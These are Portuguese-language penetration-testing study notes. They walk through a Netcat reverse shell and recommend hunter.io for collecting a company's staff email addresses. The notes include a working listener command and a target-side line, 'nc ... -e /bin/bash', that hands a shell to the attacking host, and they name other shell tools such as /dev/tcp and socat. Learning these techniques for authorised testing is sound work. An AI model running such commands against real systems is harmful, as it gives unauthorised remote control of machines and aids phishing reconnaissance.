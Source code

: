 ### Exemplo de Reverse Shell

1. Setar a maquina de ataque como ouvinte via Netcat

```bash
nc -lnvp 1337
```

obs: A escolha da porta arbitrária, recomenda-se usar acima uma porta acima da 1024 para não escolhermos uma porta que precise de privilégios

Para mais informações sobre portas -

[unix - Why are ports below 1024 privileged? - Stack Overflow](https://stackoverflow.com/questions/10182798/why-are-ports-below-1024-privileged)

2. Conectar o host (alvo) ao ouvinte Netcat.

```bash
nc 192.168.0.16 1337 -e /bin/bash
```

Obs: O ip `192.168.0.16` é o ip local da máquina atacante, para descobrir seu ip local utilizar o comando `ipconfig`

A partir de agora é possivel utilizar comandos na máquina alvo a partir da máquina de ataque.

```bash
pwd
/home/kali
```

## Estabelecendo conexão

Dentro os programas mencionados, existem muitos que podem realizar a mesma tarefa. Para realizar uma conexão e aplicar as técnicas de bind shell e reverse shell, temos:

1. /dev/tcp

2. netcat

3. socat

4. telnet

----

# Information Gathering

Uma ferramenta bastante útil para fazer o levantamento de emails de uma determinada empresa é o [hunter.io](https://hunter.io/).

Basta informar o URL da empresa para retornar uma lista de contatos, também é possível aplicar filtros por departamento.

Link para o hunter.io:

https://hunter.io/
